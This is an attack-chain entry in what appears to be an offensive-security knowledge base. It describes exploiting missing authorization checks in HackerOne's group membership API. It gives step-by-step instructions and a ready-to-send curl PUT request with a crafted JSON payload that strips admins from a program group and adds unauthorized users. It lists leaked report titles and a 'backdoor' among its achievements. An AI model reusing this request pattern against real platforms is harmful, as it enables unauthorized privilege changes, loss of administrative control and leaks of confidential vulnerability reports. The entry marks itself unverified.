

---
id: ac-uuid-001
name: Broken Access Control in HackerOne Group Management Leading to Admin Removal and Sensitive Data Leak
type: attack_chain
description: An attack chain exploiting improper authorization in HackerOne's API to manipulate program group memberships, removing admins and adding unauthorized users to leak sensitive report details.
verified: false
submitted: false
step_count: 1
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Exploit-HackerOne-Group-Membership-API]]
techniques: [[Valid Accounts]], [[Account Manipulation]]
tactics: [[Privilege Escalation]], [[Lateral Movement]]
tags: broken-access-control, api-vulnerability, authorization-bypass, data-leak
platforms: Web
tools: []
---

# Broken Access Control in HackerOne Group Management Leading to Admin Removal and Sensitive Data Leak

Multi-stage attack chain demonstrating a complete attack workflow exploiting authorization flaws in HackerOne's group management API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or [[tools/Burp-Suite]] for crafting requests

### Target Environment

- HackerOne platform (web-based bug bounty service)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to hackerone.com

### Initial Access Requirements

- Valid authenticated session as a program member (e.g., hacker account with program access)
- Network position: External
- Prior access needed: Ability to access the program's group management page

## Detailed Attack Procedures

### Step 1: Manipulate Group Memberships
procedure: [[procedures/Exploit-HackerOne-Group-Membership-API]]

**Objective**: Exploit the lack of authorization checks in the group edit API to remove all admins from a program group or add unauthorized external users, leading to loss of administrative control and potential data leaks via notifications.

**Instructions**: Authenticate to HackerOne and navigate to the group members edit page (e.g., https://hackerone.com/sasas/groups/12307/members/edit). Use browser tools or a proxy like Burp Suite to intercept and modify the PUT request to the /groups/{id} endpoint. Craft the JSON payload to set team_member_ids to an empty array or include only unauthorized user IDs, such as {"id":12307,"name":"Admin","team_members_count":2,"permissions":["user_management","program_management"],"immutable":true,"team_member_ids":[{"id":"17940"}]} to remove other admins. Send the modified request using [[commands/put-modify-group-members]].

```bash
curl -X PUT https://hackerone.com/sasas/groups/12307 \
  -H "Content-Type: application/json" \
  -H "Cookie: your-session-cookie" \
  -d '{"id":12307,"name":"Admin","team_members_count":2,"permissions":["user_management","program_management"],"immutable":true,"team_member_ids":[{"id":"17940"}]}'
```

**Expected Output**: HTTP 200 OK with updated group configuration confirming the membership change.

**Success Indicators**:
- Group members list shows only the modified users (e.g., no original admins)
- Program notifications sent to added unauthorized users, leaking report titles
- Verification by checking the group's member list in the UI or via API

## Attack Chain Summary

### Key Achievements

1. Removed all admin members from a HackerOne program group, leaving it without oversight.
2. Added unauthorized external users to the group, creating a backdoor.
3. Leaked sensitive report details (e.g., titles) via group notifications to outsiders.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Account Manipulation]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]
- [[Lateral Movement]]

---
*Last updated: 2023-10-01T00:00:00Z*
